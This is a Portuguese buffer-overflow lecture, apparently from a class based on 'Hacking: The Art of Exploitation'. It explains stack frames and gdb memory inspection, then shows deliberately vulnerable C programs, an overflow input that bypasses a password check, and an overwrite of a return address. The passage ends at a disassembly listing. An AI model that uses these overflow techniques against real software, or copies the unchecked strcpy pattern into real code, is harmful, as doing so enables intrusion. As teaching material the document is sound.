

# Apresentacão Buffer Overflow

# Tópicos:

- Exemplos livro: Hacking The Art of Exploitation
- Utilizacao shell scripts para fazer buffer overflow
- Criar VMs para realizar as coisas junto
- O que foi feito para previnir buffer overflow?

# Introducão:

### Sistema operacional:

Para demonstrar os conceitos apresentados, vamos utilizar um sistema operacional com Kernel Linux. Mais especificamente Ubuntu 7.04 especialmente por não conter varias protecões de memória necessárias para se aproveitar da vulnerabilidade conhecida por Buffer Overflow.

VM para acompanhar a explicacão: [Download Link](https://drive.google.com/file/d/1NblmcTMQ-Rzx4zC1JQBC3H5LS2Co7xNG/view?usp=sharing)

Credenciais: `kali:kali`

### Buffer Overflow:

Em uma situacão na qual estamos executando uma funcão escrita de modo low-level em uma linguagem como C, e precisamos manipular um vetor de bytes com um determinado tamanho mas não checamos a posicao da atribuicão antes de realmente fazer a atribuicão, isso pode causar o que chamamos de **Buffer Overflow**. Nessa situacão, quando não fazemos a checagem de endereco antes de fazer a atribuicao, damos a possibilidade de uma escrita ser realizada fora do buffer determinado e isso pode causar varios problemas relacionados à memoria do programa.

---

# Memory Segments

- Introducão

    Como ja dissemos, o buffer overflow acontece com mal gerenciamento de memória, portanto precisamos entender como a memória funciona antes de entender como o exploit funciona.

    O primeiro passo na execucão de um programa é a alocacão dele na memória (RAM ou qualquer tipo de memória principal), com isso o seu Sistema Operacional sabe onde estão as instrucões, dados, enderecos para funcões, etc.

    Um exemplo de segmentos de memória são: text, bss, data, stack e heap.

    Para um exemplo do que queremos fazer, podemos considerar a memória:

    

    Existe algumas variacões mas endereco `**0x000...`** geralmente é interpretada como a parte de baixo da memória, e `**0xfff...**` geralmente é chamado de parte de cima da memória. 

    Depois que seu programa é carregado na memória, a disposicão fica basicamente assim:

    

    Para Linux Kernel 2.0.x → 2.2.x on i386. Como essa construcão pode variar entre versões do Kernel, para entender a mais atual veja o código fonte: [https://github.com/torvalds/linux/blob/master/fs/binfmt_elf.c](https://github.com/torvalds/linux/blob/master/fs/binfmt_elf.c) que contem funcoes utilizadas para carregar arquivos do tipo ELF.

    Como pode ser visto na figura acima, a seta que sai da parte da memória chamada de Stack aponta para baixo, isso quer dizer que a stack comeca em um endereco mais alto (Mais próximo de `**0xfff**`) e se extende para um endereco mais baixo (Mais próximo de `**0x000**`). O mesmo acontece com a sessão da memória que chamamos de Heap, porém o crescimento é contrario à como acontece com a Stack.

    Já que a Stack e a Heap são lugares onde podemos salvar informacões durante a execucão do programa, precisamos ter um conhecimento de como essas duas sessões da memória funcionam.

    O seguinte programa exemplifica algumas utilizacoes da stack

    - Source code: `**memory_segments.c**`

        ```c
        #include <stdio.h>
        #include <stdlib.h>

        int global_var;
        int global_initialized_var = 15;

        void foo() {
           int stack_var;
           printf("foo stack_var: 0x%08x\n", &stack_var);
        }

        int main() {
           int stack_var;
           static int static_initialized_var = 15;
           static int static_var;
           int *heap_var_ptr;

           heap_var_ptr = (int *) malloc(4);

           // data segment
           printf("global_initialized_var: 0x%08x\n", &global_initialized_var);
           printf("static_initialized_var: 0x%08x\n\n", &static_initialized_var);

           // bss segment
           printf("static_var: 0x%08x\n", &static_var);
           printf("global_var: 0x%08x\n\n", &global_var);

           // heap segment
           printf("heap_var: 0x%08x\n\n", heap_var_ptr);

           // stack segment
           printf("main stack_var: 0x%08x\n", &stack_var);
           foo();
        }

        ```

# Stack

Como a estrutura da Stack é mais simples, vamos comecar o estudo por ela.

- O que é uma Stack?

    Uma Stack é um modo de armazenar dados de modo temporario, como se fossemos utilizar primeiro uma coisa que inserimos depois. O exemplo mais classico é uma pilha de pratos, quando vamos guardar pratos, o primeiro que colocamos na pilha vai ser o ultimo que vamos utilizar.

    

    Acontece que esse modo de armazenar dados é o modo mais eficiente em varios cenários dentro de um programa, como por exemplo dentro da Stack do programa.

- Como a Stack do programa funciona?

    Para definir essa Stack, precisamos do endereco do ultimo item, o qual vamos remover (pop) ou inserir sobre (push) e para isso, o computador possui um registrador específico para armazenar essa informacao, o ESP (RSP ou SP dependendo da arquitetura do seu computador).

    E ao invés de pratos, o programa insere na Stack os dados que armazenamos durante a execucao do programa.

    

    Além disso, para podemos extender a funcao principal da Stack, o computador também utiliza outro registrador para se referir ao stack-frame atual, chamado de **EBP**. Tal como o **ESP** se refere ao topo da Stack, o **EBP** endereca o inicio (base) da stack.

    Portanto, utilizando a stack montada, os valores de **ESP** e **EBP** seriam:

    

    Olhando à imagem acima, fica intuitivo de pensar o motivo do registrador ebp. Ele nos permite acessar variáveis que não são necessáriamente o topo da pilha.

    Mas isso perde a total razão de usar uma Stack, não?

    Não nesse caso, a estrutura de uma Stack permite o programa criar o que nós chamamos de Stack-Frame.

- O que é o Stack-Frame?

    Como dissemos antes, utilizar o **ebp** nos permite acessar dados que não são necessáriemente o topo da pilha, qualquer dado entre a base e o topo, essa sessão é o que chamamos de Stack-Frame, e cada funcão em execucão possui seu próprio Stack-Frame.

    

    E nesse momento podemos dizer que o que realmente empilhamos na Stack do programa são varios Stack-Frames. 

    Para mostrar um exemplo do que quero dizer sobre essa Pilha de Partes-da-Pilha, vamos supor o cenário do programa compilado de `memory-segments.c`:

    Dentro da funcão `main()` fizemos uma chamada para a funcao `foo()` e dentro dessa funcão, fizemos outra chamada para a funcão `printf()` , o que isso significa?

    Bom, iniciando pela funcao `main()` na Stack temos definido o Stack-Frame da funcao `main()`, já que **TODA** funcao em execucao tem seu Stack-Frame definido.

    

    Quando, dentro da funcao `main()` chamamos outra funcao, o Stack-Frame da outra funcão é empilhada sobre o Stack-Frame da funcão que fez a chamada, portanto:

    

    E o mesmo ocorre com a chamada para o `printf()` :

    

    Beleza, mas e quando terminamos todas as execucões de uma funcao, não precisamos mais do Stack-Frame dessa funcao, certo?

    Exatamente, então o stack-frame é removido da pilha, até retornar para a funcao raiz do programa:

    

    E depois quando acabamos as intrucões da funcao foo():

    

    Temos somente o Stack-Frame da main(). Viu? A estrutura de dados Stack serve perfeitamente para definicao da memória de um processo.

    Beleza, mas como o programa mantém o registro de qual Stack-Frame está no topo da pilha?

    Utilizando os registradores **EBP** e **ESP.** Realizando novamente as chamadas de funcao que demonstramos antes, o EBP e ESP seguem:

    

    

    

    Agora temos um problema, para remover uma Stack-Frame da pilha, precisamos passar o ebp e esp para os enderecos da funcao abaixo, como fazemos isso?

- Function-prologue e Funcion-epilogue

    ### Function prologue

    Para ver como a funcao faz essa *passagem* de registradores durante as chamadas de funcao, vamos analisar o programa `**memory_segments.c**` pelo **`gdb` :**

    Quando olhamos o código assembly que a funcao `**main()`** executa:

    

    Podemos ver essas instrucoes da main, essas funcoes no inicio da funcao, são especificas para preparar os registradores, de modo que nada seja perdido quando saimos da funcao, e preparar a stack pra que podemos inserir dados da própria funcao, sendo que nada da Stack-Frame anterior seja sobrescrito.

    Explicando as funcoes:

    

     Essas são as que o compilador insere para preparar o Stack-Frame da funcao chamada.

    O que elas fazem exatamente?

    - `push ebp`, basicamente insere a base da Stack-Frame anterior na propria stack para que podemos reatribuir o endereco anterior no ebp quando sairmos da chamada dessa funcao
    - `mov ebp, esp`, reatribui o valor de ebp para o inicio do novo stack pointer, o que indica a nova base da stack
    - `sub esp, 0x20`, "aloca" o novo stack-frame pra ser usado posteriormente pelo programa.

    Saindo dos conceitos, para exemplificar o que essas instrucoes querem dizer temos:

    

    Na chamada da funcao foo, temos, em ordem:

    1) Primeiro temos `push ebp` o valor do ebp é inserido dentro da stack para salvar o ebp antigo e o valor de esp também é incrementado (Porque inserimos algo novo na stack):

    

    2) Depois, com `mov ebp, esp`, movemos a referencia de ebp para o mesmo byte da stack que esp:

    

    3) E com `sub esp, 0x20`, movemos o esp `0x20` bytes para cima da Stack para definir o Stack-Frame da nova funcão.

    

    E isso acontece para todas as funcoes que executamos, abaixo podemos ver o function-prologue da funcao `foo()`:

    

    A unica diferenca é a "alocacao" da Stack, porque no caso da funcao foo, menos bytes são necessários.

    ### Push da stack da instrucao `call()`

    Uma coisa que ainda não foi comentado é como a instrucao call funciona.

    Do mesmo modo como precisamos "Lembrar" qual foi o valor anterior do ebp, para poder voltar para o stack-frame anterior, precisamos lembrar qual era o endereco da instrucao que fez o `call` para que podemos passar para a próxima instrucao quando a funcao terminar de executar.

    Desse modo, quando o computador interpreta a instrucao `call` ele adiciona o endereco da próxima instrucao na stack e atribui o novo valor para o eip

    O que significa o registrador EIP? Esse registrador mantem o endereco da instrucao que será realizada, depois que a instrucao é executada pelo processador, o valor do seu endereco é incrementado a fim da próxima funcao ser executada. O EIP é um dos registradores que não podemos sobreescrever, portanto se quisermos redirecionar o fluxo de instrucao de um programa precisamos utilizar instrucoes que modificam o EIP (como call, jmp, ret, etc). 

    Com isso, podemos modificar o flow de instrucoes mostrado antes para acrescentar o push do EIP na Stack antes do inicio das instrucoes do programa.

    

    Que fique claro que a insercao do endereco da próxima instrucao é feito durante a execucao da funcao call, portanto não veremos nenhum `push EIP` no disassembly.

    ### Function epilogue

    Como construimos o stack-frame de uma funcao antes de executar, também precisamos saber como destruir o stack-frame para a execucao da funcão anterior poder retornar a executar. Para isso vamos dar uma olhada no disassembly da funcao `main()`:

    

     Podemos ver algumas semelhancas com o function prologue, mas vamos destacar as seguintes instrucoes:

    

    Cada uma dessas instrucoes possuem um motivo:

    - `add esp, 0x20`: Como fizemos `sub esp, 0x20` no inicio das instrucoes para "Alocar" a stack, também precisamos utilizar essa instrucao para "Desalocar" a Stack.
    - `pop ebp`: Igualmente, como fizemos `push ebp` no inicio para colocar o valor do ebp na stack para poder criar o novo stack-frame e não perder a referência pro stack-frame antigo, utilizamos essa instrucao para utilizar a referência e reestabelecer o ebp.
    - `ret`: Como a palavra chave da linguagem C: `return;` essa instrucao também retorna o fluxo de execucao de instrucoes para as instrucoes da funcao anterior.

    E para uma explicacao mais detalhada:

    1) `add esp, 0x20` diminui o Stack-Frame alocado, fazendo com que o esp volte a apontar para o mesmo endereco que o ebp:

    

    2) Depois disso, `pop ebp` remove o que está no endereco apontado por esp e coloca isso dentro do ebp, restaurando o Stack-Frame anterior.

    

    3) E enfim, a instrucao `ret` retorna a execucao das instrucoes para o endereco das instrucoes da main, utilizando o endereco armazenado na stack:

    

    Sim, tudo bem, agora sabemos como as funcoes são interpretadas na memória, mas o que isso tem a ver com buffers?

- Insercão de Buffers na memória

    Antes, sempre fizemos uma representacão da pilha crescendo de baixo para cima, porém, como vimos anteriormente, na verdade a stack cresce dos maiores enderecos para os menores. Portanto vamos representar ela desse modo a partir de agora.

    ### Declaracao de buffers

    Para exemplificar, temos o seguinte programa:

    ```c
    #include <string.h>

    void foo() {
    	unsigned char buffer[500];    // Declara um buffer com 500 bytes

    	memset(buffer, 0x41, 500);    // Seta todos os 500 bytes do buffer com a letra 'A' (ASCII 0x41)

    	return;
    }

    int main() {
    	foo();

    	return 0;
    }
    ```

    Utilizamos duas funcoes no programa para entender melhor como o programa funciona.

    Compilando o programa, e visualizando o disassembly da funcão `foo()` temos:

    

    Algumas partes importantes do programa foram identificadas, mas o que elas querem dizer?

    1) A primeira parte destacada faz parte da function prologue e é o que chamamos de "Alocacão" da Stack. Podemos notar que ela é muito maior do que as alocacoes ja vista. Isso faz sentido, ja que declaramos uma variável local com 500 bytes (O buffer declarado). Sua implicacao na memória é o seguinte:

    

    2) A funcao `memset()` faz com que todos os bytes do buffer sejam `0x41` . Isso foi feito de propósito para que possamos quais são os bytes da funcao quando vemos por um debugger. Depois da funcao executar, devemos ter algo desse modo:

     

    

    Para identificar isso no programa em execucao, rodei o programa no gdb e adicionei um breakpoint depois para dar uma olhada na memória, que ficou:

    

    Acho que podemos identificar facilmente onde o buffer qqtá. Mas além disso, conseguimos identificar onde está o "ebp" e o "eip" armazenados?

    

    O comando `bt` utilizado é chamado de `backtrace` ele lista a stack de funcoes apartir da funcao principal do programa, e o endereco listado é o endereco da próxima instrucao quando a funcao `foo()` terminar. E é exatamente esse endereco adicionado na stack quando a instrucao `call` é executada.

    Comando que utilizamos para listar a stack: `x/150wx $esp` , o que isso significa? Esse `x` no inicio significa `exam` ou seja, vamos examinar algo na memória; `150` significa a quantidade de words de 4 bytes que o gdb vai listar; `w` é o modo como esses bytes vão ser exibidos (Pode ser: `b, h, w, g`); e `x` significa que queremos ver os bytes no formato hexadecimal (Pode ser: `o, x, u, t`)

    ### Ordem da pilha ≠ Ordem de escrita

    É importante ressaltar que a ordem que o programa empilha coisas na Stack é diferente da ordem de escrita. O que queremos dizer com isso? Bom, ja vimos que para inserir um novo Stack-Frame na pilha o programa comeca em um endereco menor do que comparado ao Stack-Frame anterior. E o mesmo acontece para a insercao de dados, como nossa variavel `buffer`.

    Porém, se formos nos referenciar à variável buffer[0] por exemplo, estariamos nos referindo ao menor endereco da variável buffer. E portanto quando escrevemos uma string em um buffer de char, na verdade fazemos a insercao na ordem crescente, enquanto os Stack-Frames são empilhados de modo decrescente.

# Stack-Overflow

- Overflow

    Em linguagens de alto nível mais simples como C que o programador tem mais controle sobre a memória, é mais facil um programa ser vulnerável à buffer overflow e memory leaks.

    O que isso significa? Significa que quando um buffer é alocado na memória, não existe métodos de verificar se o que foi inserido naquele buffer está além da memória do buffer.

    O que podemos fazer com isso?

    **overflow_example.c**

    ```c
    #include <stdio.h>
    #include <string.h>

    int main(int argc, char *argv[]) {
    	int value = 5;
    	char buffer_one[8], buffer_two[8];

    	strcpy(buffer_one, "one"); /* Put "one" into buffer_one. */
    	strcpy(buffer_two, "two"); /* Put "two" into buffer_two. */

    	printf("[BEFORE] buffer_two is at %p and contains \'%s\'\n", buffer_two, buffer_two);
    	printf("[BEFORE] buffer_one is at %p and contains \'%s\'\n", buffer_one, buffer_one);
    	printf("[BEFORE] value is at %p and is %d (0x%08x)\n", &value, value, value);

    	printf("\n[STRCPY] copying %d bytes into buffer_two\n\n", strlen(argv[1]));

    	strcpy(buffer_two, argv[1]); /* Copy first argument into buffer_two. */

    	printf("[AFTER] buffer_two is at %p and contains \'%s\'\n", buffer_two, buffer_two);
    	printf("[AFTER] buffer_one is at %p and contains \'%s\'\n", buffer_one, buffer_one);
    	printf("[AFTER] value is at %p and is %d (0x%08x)\n", &value, value, value);
    }
    ```

    Rodando o código temos:

    ```bash
    **$** ./compile.sh overflow_example.c a.out
    Disabling ASLR...
    Compiling program...
    **$** ./a.out aaa
    [BEFORE] buffer_two is at 0xffffcf2c and contains 'two'
    [BEFORE] buffer_one is at 0xffffcf34 and contains 'one'
    [BEFORE] value is at 0xffffcf3c and is 5 (0x00000005)

    [STRCPY] copying 3 bytes into buffer_two

    [AFTER] buffer_two is at 0xffffcf2c and contains 'aaa'
    [AFTER] buffer_one is at 0xffffcf34 and contains 'one'
    [AFTER] value is at 0xffffcf3c and is 5 (0x00000005)
    **$** ./a.out 1234567890
    [BEFORE] buffer_two is at 0xffffcf2c and contains 'two'
    [BEFORE] buffer_one is at 0xffffcf34 and contains 'one'
    [BEFORE] value is at 0xffffcf3c and is 5 (0x00000005)

    [STRCPY] copying 10 bytes into buffer_two

    [AFTER] buffer_two is at 0xffffcf2c and contains '1234567890'
    [AFTER] buffer_one is at 0xffffcf34 and contains '90'
    [AFTER] value is at 0xffffcf3c and is 5 (0x00000005)
    ```

    Pela posicao da memória exibida pelo output do programa, podemos ver que ao entrar na execucao da main, ouve uma alocacao específca da stack para as variaveis locais:

    

    Portanto mesmo com a ordem de alocacao do programa, o compilador resolveu adicionar as variáveis de modo diferente na stack. E como podemos ver, ao tentar escrever 10 bytes no `buffer_two` que contém somente 8 bytes, acabamos sobreescrevendo o `buffer_one`, como pode ser visto no output do programa.

    Mas e se sobreescrevermos o buffer com muitos mais bytes do que cabe?

    ```bash
    **$** ./a.out AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    [BEFORE] buffer_two is at 0xffffcf0c and contains 'two'
    [BEFORE] buffer_one is at 0xffffcf14 and contains 'one'
    [BEFORE] value is at 0xffffcf1c and is 5 (0x00000005)

    [STRCPY] copying 42 bytes into buffer_two

    [AFTER] buffer_two is at 0xffffcf0c and contains 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
    [AFTER] buffer_one is at 0xffffcf14 and contains 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
    [AFTER] value is at 0xffffcf1c and is 1094795585 (0x41414141)
    [1]    30988 **segmentation fault (core dumped)**  ./a.out AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    ```

    O programa simplesmente quebra.

- Overflow Vulnerabilities

    Nos exemplos anteriores, utilizamos o Buffer Overflow de modo que somente crashamos o programa, mas e se nós utilizassemos isso pra tomar algum tipo de vantagem, o seguinte programa tem uma vulnerabilidade do tipo stack-bufferoverflow que podemos tomar vantagem para entrar no segmento de código que queremos:

    **auth_overflow.c**

    ```c
    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>

    int check_authentication(char *password) {
    	int auth_flag = 0;
    	char password_buffer[16];

    	strcpy(password_buffer, password);
    	
    	if(strcmp(password_buffer, "ganesh") == 0)
    		auth_flag = 1;

    	return auth_flag;
    }

    int main(int argc, char *argv[]) {
    	if(argc < 2) {
    		printf("Usage: %s <password>\n", argv[0]);
    		exit(0);
    	}
    	if(check_authentication(argv[1])) {
    		printf("\n-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
    		printf("      Access Granted.\n");
    		printf("-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
    	} else {
    		printf("\nAccess Denied.\n");
       }
    }
    ```

    Esse programa tem o intuito de fornecer algum tipo de autenticacao pela funcaoo `check_authentication()` e depois entra em cada sessão de código dependendo do retorno dessa funcao.

    Para esse programa, se passarmos a senha `ganesh` receberemos Access Granted, caso fornecemos qualquer outra senha, então receberemos Access Denied.

    ```c
    **$** ./a.out teste

    Access Denied.
    **$** ./a.out ganesh

    -=-=-=-=-=-=-=-=-=-=-=-=-=-
          Access Granted.
    -=-=-=-=-=-=-=-=-=-=-=-=-=-
    ```

    Mas existe a possibilidade de conseguimos esse "Access Granted" sem saber qual a senha correta?

    Bom, se não tivesse, então não teria motivo de mostrar esse exemplo. E para os que adivinharam, vamos tentar utilizar buffer overflow para conseguir o acesso.

    Então é só adicionar varios caracteres aleatórios e vamos conseguir passar pela autenticacao?

    Bom, mais ou menos:

    ```c
    [Apresentacoes/BufferOverflow/src]$ ./a.out AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    [1]    32715 segmentation fault (core dumped)  ./a.out AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    [Apresentacoes/BufferOverflow/src]$ ./a.out AAAAAAAAAAAAAAAA                                  

    Access Denied.
    ```

    Então essa apresentacão não serve para nada, não consegui acessar o que queria.

    Não é por aí, precisamos entender o que estamos fazendo, caso o contrário não vamos conseguir fazer uma adaptacao para funcionar em outros cenários.

    Vamos dar uma olhada no programa pelo gdb:

    ```c
    $ gdb -q ./a.out
    Reading symbols from ./a.out...	
    (gdb) list check_authentication
    1	#include <stdio.h>
    2	#include <stdlib.h>
    3	#include <string.h>
    4	
    5	int check_authentication(char *password) {
    6		int auth_flag = 0;
    7		char password_buffer[16];
    8	
    9		strcpy(password_buffer, password);
    10		
    (gdb) 
    11		if(strcmp(password_buffer, "ganesh") == 0)
    12			auth_flag = 1;
    13	
    14		return auth_flag;
    15	}
    16	
    17	int main(int argc, char *argv[]) {
    18		if(argc < 2) {
    19			printf("Usage: %s <password>\n", argv[0]);
    20			exit(0);
    (gdb) break 9
    Breakpoint 1 at 0x8049233: file auth_overflow.c, line 9.
    (gdb) break 14
    Breakpoint 2 at 0x8049266: file auth_overflow.c, line 14.
    ```

    Adicionamos um break point nas linhas 9 e 14 para olhar o estado das variáveis da funcao check_authentication

    ```c
    (gdb) run AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    Starting program: ~/src/a.out AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

    Breakpoint 1, check_authentication (password=0xffffd187 'A' <repeats 30 times>) at auth_overflow.c:9
    9		strcpy(password_buffer, password);
    (gdb) x/s password_buffer
    0xffffce6c:	"h\354\372", <incomplete sequence \367>
    (gdb) x/wx &auth_flag
    0xffffce7c:	0x00000000
    (gdb) x/16x password_buffer
    0xffffce6c:	0xf7faec68	0xf7fab000	0xf7fe22f0	0x00000000
    0xffffce7c:	0x00000000	0xf7fab3fc	0x0804c000	0xffffcea8
    0xffffce8c:	0x080492c6	0xffffd187	0xffffcf54	0xffffcf60
    0xffffce9c:	0x08049286	0xffffcec0	0x00000000	0x00000000
    (gdb) print 0xffffce7c - 0xffffce6c
    $1 = 16
    ```

    Até o primeiro break point, o conteúdo de `password_buffer` contém lixo e o conteúdo de `auth_flag` está zerado, mas queremos que ele contenha qualquer byte, para que a autenticacão funcione.

    Olhando o endereco das variáveis, podemos ver que o endereco de auth_flag (`0xffffce7c`) está acima na memória do que o endereco de password_buffer(`0xffffce6c`), e com o comando `print` podemos ver que a variável auth_flag está 16 bytes acima de password_buffer. Se escrevermos mais de 16 caracteres, e que se escrevermos mais de 16 caracteres no argumento do programa, o `strcpy()` vai escrever dentro da variável auth_flag que será retornada sendo diferente de 0.

    Rodando o programa no debuger denovo:

    ```c
    (gdb) run AAAABBBBCCCCDDDDEE
    The program being debugged has been started already.
    Start it from the beginning? (y or n) y
    Starting program: ~/src/a.out AAAABBBBCCCCDDDDEE

    Breakpoint 1, check_authentication (password=0xffffd193 "AAAABBBBCCCCDDDDEE") at auth_overflow.c:9
    9		strcpy(password_buffer, password);
    (gdb) cont
    Continuing.

    Breakpoint 2, check_authentication (password=0xffffd193 "AAAABBBBCCCCDDDDEE") at auth_overflow.c:14
    14		return auth_flag;
    (gdb) x/s password_buffer
    0xffffce7c:	"AAAABBBBCCCCDDDDEE"
    (gdb) x/wx &auth_flag
    0xffffce8c:	0x00004545
    (gdb) cont
    Continuing.

    -=-=-=-=-=-=-=-=-=-=-=-=-=-
          Access Granted.
    -=-=-=-=-=-=-=-=-=-=-=-=-=-
    [Inferior 1 (process 33843) exited normally]
    ```

    Utilizar um intervalo de letras é costume quando tentamos achar quais são os bytes que sobreescrevem a variável que queremos. Nesse caso, o byte sobreescrito foi o `0x45`, ou seja:

    ```c
    [~/src]$ python3 -c "print(chr(0x45))"
    E
    ```

    O caractere "E" do nosso payload ("AAAABBBBCCCCDDDDEE"). E dessa forma a funcão retornará `17733 (0x4545)` para a funcao `main()` .

    ### Mas, e se mudarmos as ordens das variáveis? Ainda vamos conseguir fazer o overflow?

    Depende

    **auth_overflow2.c**

    ```c
    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>

    int check_authentication(char *password) {
    	char password_buffer[16];
    	int auth_flag = 0;

    	strcpy(password_buffer, password);
    	
    	if(strcmp(password_buffer, "brillig") == 0)
    		auth_flag = 1;
    	if(strcmp(password_buffer, "outgrabe") == 0)
    		auth_flag = 1;

    	return auth_flag;
    }

    int main(int argc, char *argv[]) {
    	if(argc < 2) {
    		printf("Usage: %s <password>\n", argv[0]);
    		exit(0);
    	}
    	if(check_authentication(argv[1])) {
    		printf("\n-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
    		printf("      Access Granted.\n");
    		printf("-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
    	} else {
    		printf("\nAccess Denied.\n");
       }
    }
    ```

    Depende não é uma resposta válida. Pois então vamos para uma resposta válida. O que define o que vai antes na stack? O compilador, portanto, a disposicao de variaveis na stack depende totalmente do compilador, nesse caso se compilarmos o programa, vamos ver que a posicao da memória para `auth_flag` continua antes do buffer `password_buffer` , o que é bizarro, mas enfim, é como o compilador funciona.

- Não dependemos de sorte

    Além das próprias variáveis locais, existe uma parte da memória muito interessante no escopo da funcao, e que fica acima de todas as variáveis da stack. Exatamente o valor do endereco da próxima instrucão.

    

    Pra quem não percebeu ainda, se trata desse cara aí.

    Podemos adicionar qualquer endereco nesse lugar da Stack que, quando o programa executar a instrucao `ret` ele vai pular pra esse lugar e executar qualquer pedaco de memória que estiver alí. 

    Suspeito, alguem ja deve ter pensado em usar isso aí. Sim, pensaram mesmo.

    Para tentar fazer algo sobre isso, vamos rodar o programa **auth_overflow2.c** compilado com a flag de debugging para tentar fazer algo a respeito:

    ```c
    (gdb) list
    3	#include <string.h>
    4	
    5	int check_authentication(char *password) {
    6		char password_buffer[16];
    7		int auth_flag = 0;
    8	
    9		strcpy(password_buffer, password);
    10		
    11		if(strcmp(password_buffer, "ganesh") == 0)
    **12**			auth_flag = 1;
    (gdb) 
    13	
    **14**		return auth_flag;
    15	}
    16	
    17	int main(int argc, char *argv[]) {
    18		if(argc < 2) {
    19			printf("Usage: %s <password>\n", argv[0]);
    20			exit(0);
    21		}
    22		if(check_authentication(argv[1])) {
    (gdb) break **14**
    Breakpoint 1 at 0x8049266: file auth_overflow2.c, line 14.
    (gdb) break **9**
    Breakpoint 2 at 0x8049233: file auth_overflow2.c, line 9.
    (gdb) r AAAABBBBCCCCDDDDAAAABBBBCCCCDDDDEEEE
    The program being debugged has been started already.
    Start it from the beginning? (y or n) y
    Starting program: ~/src/a.out AAAABBBBCCCCDDDDAAAABBBBCCCCDDDDEEEE

    Breakpoint 2, check_authentication (password=0xffffd181 "AAAABBBBCCCCDDDDAAAABBBBCCCCDDDDEEEE") at auth_overflow2.c:9
    9		strcpy(password_buffer, password);
    (gdb) bt
    **#0  check_authentication (password=0xffffd181 "AAAABBBBCCCCDDDDAAAABBBBCCCCDDDDEEEE") at auth_overflow2.c:9
    #1  0x080492c6 in main (argc=2, argv=0xffffcf54) at auth_overflow2.c:22**
    (gdb) x/16x &password_buffer
    0xffffce6c:	0xf7faec68	0xf7fab000	0xf7fe22f0	0x00000000
    0xffffce7c:	0x00000000	0xf7fab3fc	0x0804c000	0xffffcea8
    0xffffce8c:	**0x080492c6**	0xffffd181	0xffffcf54	0xffffcf60
    0xffffce9c:	0x08049286	0xffffcec0	0x00000000	0x00000000
    (gdb) c
    Continuing.

    Breakpoint 1, check_authentication (password=0xffffd100 "\002") at auth_overflow2.c:14
    14		return auth_flag;
    (gdb) bt
    **#0  check_authentication (password=0xffffd100 "\002") at auth_overflow2.c:14
    #1  0x45454545 in ?? ()
    #2  0xffffd100 in ?? ()**
    Backtrace stopped: previous frame inner to this frame (corrupt stack?)
    (gdb) x/16x &password_buffer
    0xffffce6c:	0x41414141	0x42424242	0x43434343	0x44444444
    0xffffce7c:	0x41414141	0x42424242	0x43434343	0x44444444
    0xffffce8c:	**0x45454545**	0xffffd100	0xffffcf54	0xffffcf60
    0xffffce9c:	0x08049286	0xffffcec0	0x00000000	0x00000000
    ```

    Podemos dar uma olhada em algumas partes destacadas.

    1) Em laranja destacamos os breakpoints que adicionamos a cada etapa

    2) Em azul, podemos usar o `backtrace` do gdb para verificar qual o endereco de retorno da main.

    3) Em roxo podemos ver como o gdb executa o programa `backtrace` (Fantástico!).

    Nesse caso, sobreescrevemos o endereco de retorno da funcao `check_authentication()` para o endereco `0x45454545` um endereco bem interessante de fato, mas não no nosso caso. Se continuarmos o programa com esse endereco, o programa vai simplesmente dizer retornar `Segmentation Fault` 

    ```c
    (gdb) x/16x &password_buffer
    0xffffce6c:	0x41414141	0x42424242	0x43434343	0x44444444
    0xffffce7c:	0x41414141	0x42424242	0x43434343	0x44444444
    0xffffce8c:	**0x45454545**	0xffffd100	0xffffcf54	0xffffcf60
    0xffffce9c:	0x08049286	0xffffcec0	0x00000000	0x00000000
    (gdb) c
    Continuing.

    Program received signal SIGSEGV, Segmentation fault.
    **0x45454545** in ?? ()
    ```

    Isso porque essa região da memória não é permitida para acessarmos, o que é curioso.

    Para onde podemos ir então?

    Um lugar muito mais interessante é a sessão da memória que imprime na tela "Acess Granted" o que facilitaria nosso trabalho de modificar o access token. Ok, talvez não facilitaria, mas é muito mais legal fazer desse jeito.

    Portanto, somente precisamos pegar o endereco dessa instrucao e adicionar no lugar onde colocamos o "EEEE" do payload.

    (Problemas com código para testar isso...)

- Utilizando overflow para executar qualquer código

    Quando olhamos o disassembly de uma funcao, por exemplo a funcao `main` de um programa.

    ```c
    08049205 <main>:
     8049205:       8d 4c 24 04             lea    ecx,[esp+0x4]
     8049209:       83 e4 f0                and    esp,0xfffffff0
     804920c:       ff 71 fc                push   DWORD PTR [ecx-0x4]
     804920f:       55                      push   ebp
     8049210:       89 e5                   mov    ebp,esp
     8049212:       51                      push   ecx
     8049213:       83 ec 04                sub    esp,0x4
     8049216:       e8 28 00 00 00          call   8049243 <__x86.get_pc_thunk.ax>
